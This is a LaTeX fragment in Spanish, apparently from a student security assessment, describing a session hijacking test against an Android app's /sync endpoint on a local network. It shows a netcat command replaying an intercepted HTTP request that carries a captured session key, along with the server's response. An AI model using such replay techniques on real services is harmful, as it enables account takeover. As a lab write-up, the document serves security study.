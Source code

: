 \documentclass[11pt, a4paper, twoside]{article}
\begin{document}
\begin{figure}[H]
\begin{center}
\includegraphics[width=0.7\textwidth]{wireshark-followstream.png}
\end{center}
\caption{Ejemplo transcripción del tráfico HTTP interceptado}
\label{fig:wireshark-followstream}
\end{figure}

\subsubsection{Robo de sesión}
Con el tráfico capturado, podemos realizar la misma petición desde una PC distinta al cliente original. Utilizando el comando \texttt{netcat}, se envió una copia del tráfico capturado al servidor. El resultado de esta prueba se puede observar en  y , en donde se transcribieron el request y la respuesta recibida, respectivamente.

\begin{figure}[H]
\begin{Verbatim}[frame=single,fontsize=\small]
$ nc 192.168.0.103 8888
POST /sync?email=test2%40test.com&session_key=q%2BlY0j%2FmskTx4GC%2F73sgkg%3D%3D HTTP/1.1
Content-Type: application/json; charset=UTF-8
User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.1.2; sdk Build/MASTER)
Host: 192.168.0.103:8888
Connection: Keep-Alive
Accept-Encoding: gzip
Content-Length: 27

["YWJvdXQ6Ymxhbms\u003d\n"]
\end{Verbatim}
\caption{Simulamos un request \textbf{{\color{red}/sync}} desde otra PC}
\label{fig:sync-simulado1}
\end{figure}

\begin{figure}[H]
\begin{Verbatim}[frame=single,fontsize=\small]
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/2.7.6
Date: Sun, 22 Feb 2015 20:41:00 GMT
\end{Verbatim}
\caption{Respuesta obtenida en el cliente luego de hacer el request}
\label{fig:sync-simulado2}
\end{figure}
\end{document}
